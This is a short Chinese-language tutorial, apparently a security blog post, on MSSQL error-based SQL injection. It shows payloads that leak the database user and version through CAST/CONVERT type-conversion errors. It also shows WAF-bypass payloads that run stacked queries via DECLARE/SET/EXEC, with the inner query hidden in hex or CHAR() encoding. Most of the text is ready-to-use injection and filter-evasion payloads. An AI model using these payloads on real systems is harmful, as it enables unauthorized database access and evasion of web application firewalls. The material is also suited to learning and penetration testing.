

# 0x00 简介

在上一章我们已经了解到了报错注入，其实MSSQL报错注入利用的就是显示或隐式转换来报错注入,比如以下就是典型的隐式转换

```
select * from admin where id =1 and (select user)>0--

select * from admin where id =1|(select user)--

在将 nvarchar 值 'dbo' 转换成数据类型 int 时失败。

```

显示转换也就是利用函数来转换，我们经常用到的两个函数就是cast和convert

```
CAST( expression AS data_type )

CONVERT(data_type[(length)], expression [, style])

```

```
select * from admin where id =1 (select CAST(USER as int))

select * from admin where id =1 (select convert(int,user))

```


# 0x01 简单绕过注入

因为在前面一章我已经写过一些简单的报错注入了，所以这里引进一个`declare` 函数，他是mssql声明局部变量的函数，我们经常用它来绕过waf对一些关键词的拦截

```
select * from admin where id =1;declare @a nvarchar(2000) set @a='select convert(int,@@version)' exec(@a) --

```

declare定义变量 set设置变量值 exec执行变量


变量的值是支持hex和ascii码的,当过滤引号我们就可以这么用 把我们的语句编码一下

```
select * from admin where id =1;declare @s varchar(2000) set @s=0x73656c65637420636f6e7665727428696e742c404076657273696f6e29 exec(@s)--

select * from admin where id =1;declare @s varchar(2000) set @s= CHAR(115) + CHAR(101) + CHAR(108) + CHAR(101) + CHAR(99) + CHAR(116) + CHAR(32) + CHAR(99) + CHAR(111) + CHAR(110) + CHAR(118) + CHAR(101) + CHAR(114) + CHAR(116) + CHAR(40) + CHAR(105) + CHAR(110) + CHAR(116) + CHAR(44) + CHAR(64) + CHAR(64) + CHAR(118) + CHAR(101) + CHAR(114) + CHAR(115) + CHAR(105) + CHAR(111) + CHAR(110) + CHAR(41) exec(@s)--

```





如果你绕过了declare 那么waf基本没啥用了，这里如果你用hackbar的话记得把加号url编码。


#  0x02 文末


#### 本文如有错误，请及时提醒，避免误导他人


BY 404